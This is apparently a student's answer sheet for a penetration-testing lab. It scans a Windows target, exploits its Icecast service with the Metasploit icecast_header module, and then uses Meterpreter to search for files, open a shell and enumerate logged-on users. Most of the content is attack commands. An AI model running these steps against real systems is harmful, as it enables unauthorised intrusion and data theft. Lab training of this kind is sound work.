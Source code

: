 1. Perform a service and version scan using Nmap to determine which services are up and running:

    - Run the Nmap command that performs a service and version scan against the target.

      > Answer: `nmap <ip> -sV -O -A` I'll use `-A` since i don't fear detection of a scan in this case
 
 
2. From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast exploits:
 
   - Run the SearchSploit commands to show available Icecast exploits.
  
     > Answer: `searchsploit icecast`

3. Now that we know which exploits are available to us, let's start Metasploit:
 
   - Run the command that starts Metasploit:
    
     > Answer: `msfconsole`
 
 
4. Search for the Icecast module and load it for use.
 
   - Run the command to search for the Icecast module:
     
     > Answer: `search icecast`
 

   - Run the command to use the Icecast module:

       **Note:** Instead of copying the entire path to the module, you can use the number in front of it.

     > Answer: `use exploit/windows/http/icecast_header` why use numbers instead of tab autocomplete?
 
 
5. Set the `RHOST` to the target machine.
 
   - Run the command that sets the `RHOST`:
      
     > Answer: `show options` `set rhost 192.168.0.20` `show options`
 
6. Run the Icecast exploit.
 
   - Run the command that runs the Icecast exploit.
      
     > Answer: `exploit`
 
   - Run the command that performs a search for the `secretfile.txt` on the target.
      
     > Answer: `search -f *secretfile.txt*`
  
 7. You should now have a Meterpreter session open.
 
    - Run the command to performs a search for the `recipe.txt` on the target:

      > Answer:  `search -f *recipe.txt*`
 
 
    - **Bonus**: Run the command that exfiltrates the `recipe*.txt` file:


      > Answer: `cd /Users/IEUser/Documents` 
      > `edit Drinks.recipe.txt` 
 
 
   - **Note:** The exploit suggester is just that: a suggestion. Keep in mind that the listed suggestions may not include all available exploits.

 
#### Bonus
  
 
A. Run a Meterpreter post script that enumerates all logged on users.

  > Answer: `run post/windows/gather/enum_logged_on_users`
 
     
B. Open a Meterpreter shell and gather system information for the target.
 
  > Answer: `shell` 
  > `systeminfo`
 
C. Run the command that displays the target's computer system information:

   > Answer: `sysinfo`
